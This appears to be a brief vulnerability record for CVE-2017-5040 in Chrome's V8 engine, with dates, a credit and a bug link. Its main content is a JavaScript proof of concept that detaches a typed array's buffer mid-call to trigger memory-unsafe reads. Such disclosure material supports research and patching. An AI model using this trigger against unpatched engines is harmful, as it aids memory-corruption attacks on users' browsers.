 # CVE-2017-5040

- Report: Feb 2017
- Fix: Mar 2017
- Credit: Choongwoo Han

## PoC

```javascript
// flags: --allow-natives-syntax
var buf = new ArrayBuffer(0x10000);
var arr2 = new Uint8Array(buf).fill(55);
var tmp = {};
tmp[Symbol.toPrimitive] = function () {
  %ArrayBufferNeuter(arr2.buffer)
  var arr3 = new Uint8Array(0x800).fill(0xfc);
  return 0;
};

print(Array.prototype.indexOf.call(arr2, 0x00, tmp));
```

## Reference

- [Issue](https://crbug.com/691323)
